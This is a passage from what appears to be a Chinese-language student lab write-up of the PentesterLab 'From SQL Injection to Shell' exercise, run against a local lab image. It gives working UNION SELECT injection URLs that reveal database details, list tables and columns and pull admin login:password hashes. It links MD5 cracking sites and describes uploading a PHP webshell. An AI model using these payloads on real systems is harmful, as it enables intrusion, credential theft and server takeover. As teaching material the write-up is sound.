










# From SQL Injection to Shell  

### SQL Injection 攻击原理   
- 基于B/S应用开发模式编写应用程序，在编写代码的时候，没有对用户输入数据的合法性进行判断，使应用程序存在安全隐患   
- 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据  
- SQL注入是从正常的WWW端口访问，而且表面看起来跟一般的Web页面访问没什么区别。  

### 基本思路   
- 收集web开发的基本信息  
- 检测并利用SQL注入检索信息
- 获取管理员权限并执行代码  

### 实验环境   
- 服务器采用的是Pentesterlab封装好的镜像来进行搭建，采用的是debian的系统。  
- 攻击方可采用kali、Windows等多种系统。     

### 实验过程
- **通过调查分析得知目标是基于PHP开发的网站**   
- **SQL注入漏洞的判断**  
一般来说，SQL注入一般存在于形如："HTTP://xxx.xxx.xxx/abc.asp?id=XX" 等带有参数的ASP、PHP等动态网页中，有时一个动态网页中可能只有一个参数，有时可能有N个参数，有时是整型参数，有时是字符串型参数，不能一概而论。总之只要是带有参数的动态网页且此网页访问了数据库，那么就有可能存在SQL注入  
**1.整型参数的判断**  
  
**2.字符串型参数的判断**  
  
- **利用关键词UNION检索信息**  
为了执行一个SQL注入请求，需要知道查询第一部分返回的列数  
两种方法：  
1.使用UNION SELECT语句并增加列数。如果UNION语句连接的两个查询返回的列数不同，数据库会报错。因此可以通过这个方法来猜测列数  
**示例：**  
  列数不同时会报错： 
  
列数相同时则能正常显示：  
http://localhost/cat.php?id=1%20union%20select%201,2,3,4  
说明该页面的列数为4  
2.使用ORDER BY 语句，返回的结果会根据ORDER BY 语句选择的列进行排序，ORDER BY后可以是列名，也可以是第几列的数字，如果列数超出现有值，数据库会报错。因此可以通过这个方法可以找到最后一列  
**示例**  
列数小于等于页面列数时，可以正常显示  
列数大于页面列数时，会报错：  
http://localhost/cat.php?id=1%20order%20by%205  
  
- **基于所收到的错误消息，得知所使用的后台数据库是MySQL**  
利用这些信息，可以强制数据库执行一个函数或发送信息给我们  
两种方法：  
1.使用current_user()语句，用来取得 MySQL 当前使用者名称 
2.使用version()语句，得到数据库版本号  
**示例：**  
**the database version:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4  
http://localhost/cat.php?id=1%20union%20select%201,version%28%29,3,4  
  
   **the current user:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,current_user(),3,4  
  
**the current database:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,database(),3,4  
  
 **利用返回的meta-information构建最终请求**  
从MySQL版本5开始，MySQL提供关于数据库、表、列的meta-information，这些信息储存在information_schema数据库里  
得到列与其对应的表  
**the list of tables:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,table_name,3,4%20FROM%20information_schema.tables
  
**the list of columns:**http://localhost/cat.php?id=1%20UNION%20SELECT%201,column_name,3,4%20FROM%20information_schema.columns  

 **利用查询语句得到管理员账号与密码**  
- 获取用于访问管理页面的用户名和密码：http://localhost/cat.php?id=1%20UNION%20SELECT%201,concat(login,%27:%27,password),3,4%20FROM%20users  
   
 **利用网络查询或密码破解工具得到密码明文**  
- [md5在线解密破解（需要付费）](http://www.cmd5.com/)  
  
- [md5在线解密破解](http://pmd5.com/) 
   
**根据已知的账号密码成功登录到管理员界面：**
  
**上传webshell和执行代码获取管理员权限**  
webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WEB目录下正常的网页文件混在一起，然后就可以使用浏览器来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的  
- 用账号密码登陆网站，找到上传文件位置，上传一个 php 脚本  

###参考资料  
1. [pentesterlab course](https://pentesterlab.com/exercises/from_sqli_to_shell/course)  
2. [WIKIPEDIA SQL injection](https://en.wikipedia.org/wiki/SQL_injection)
3. [百度百科 SQL注入攻击](http://baike.baidu.com/view/983303.htm)
4. [各种博客](http://www.myhack58.com/Article/html/3/7/2014/44097.htm)  
###试验中出现的问题
当宿主机出于不能无网络连接时，用虚拟机打开网站端系统，设置中如果选择‘桥接网卡’则无法在宿主机上通过http://localhost/查找到页面，但是通过NAT模式，仅主机（Host-Only）适配器模式则可以打开页面。  
####原因：  
在桥接网卡模式下，虚拟出来的操作系统就像是局域网中的一台独立的主机，它可以访问网内任何一台机器。在此模式下，需要手工为虚拟系统配置IP地址、子网掩码、而且还要和宿主机出于同一网段，这样虚拟系统才能和宿主机器进行通信。 **虚拟机有独立的IP**  
 NAT(网络地址转换模式)，虚拟机借助NAT（网络地址转换）功能，通过宿主机所在的网络来访问公网。NAT模式下的虚拟系统的TCP/IP配置信息是由VMnet8(NAT)虚拟网络的DHCP服务器提供的，无法进行手工修改，因此虚拟系统无法和本局域网中的其他真是主机进行通信。虚拟机可以访问主机，但主机无法访问到虚拟机。**虚拟机没有自己独立的IP**  
仅主机（Host-Only）适配器模式，用于在无需主机的物理网卡的情况下，创建一个网络，该网络中，只有宿主机和旗下的一些虚拟机。虚拟机和主机之间，就像中间连接了一个物理上的网卡交换机Switch一样，是可以互相通讯的。  

